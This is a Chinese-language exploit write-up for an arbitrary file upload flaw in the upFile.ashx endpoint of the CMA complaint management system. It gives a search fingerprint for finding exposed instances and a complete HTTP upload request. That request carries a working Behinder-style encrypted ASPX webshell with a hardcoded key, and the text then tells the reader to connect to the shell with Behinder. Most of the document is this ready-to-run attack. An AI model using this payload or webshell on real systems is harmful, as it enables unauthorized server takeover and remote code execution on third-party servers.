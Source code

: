# CMA客诉管理系统 upFile.ashx 任意文件上传漏洞

## 漏洞描述

CMA客诉管理系统 upFile.ashx文件存在任意文件上传漏洞，通过漏洞攻击者可以上传任意文件控制服务器

## 漏洞影响

<a-checkbox checked>CMA客诉管理系统</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="CMA客诉管理系统手机端"</a-checkbox></br>

## 漏洞复现

登录页面

![img](/assets/PeiQi-Wiki/img/1630077859995-d563e899-7674-4370-b05e-94b72a5bfe7c.png)

发送请求包上传文件

```python
POST /upFile/upFile.ashx HTTP/1.1
Host: 
Content-Length: 562
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: null
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarymXf9pBIUlDVOYtnZ
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.159 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Connection: close

------WebKitFormBoundarymXf9pBIUlDVOYtnZ
Content-Disposition: form-data; name="file"; filename="shell.aspx"
Content-Type: application/octet-stream

<%@ Page Language="C#" %><%@Import Namespace="System.Reflection"%><%Session.Add("k","e45e329feb5d925b");byte[] k = Encoding.Default.GetBytes(Session[0] + ""),c = Request.BinaryRead(Request.ContentLength);Assembly.Load(new System.Security.Cryptography.RijndaelManaged().CreateDecryptor(k, k).TransformFinalBlock(c, 0, c.Length)).CreateInstance("U").Equals(this);%>

------WebKitFormBoundarymXf9pBIUlDVOYtnZ--
```

![img](/assets/PeiQi-Wiki/img/1630077920980-30952928-5af7-4b07-8aa4-dda8c323f5b4.png)

发送后回显路径，使用冰蝎连接

![img](/assets/PeiQi-Wiki/img/1630077956266-b7a3a7b2-690a-423e-86d3-1d747405aa34.png)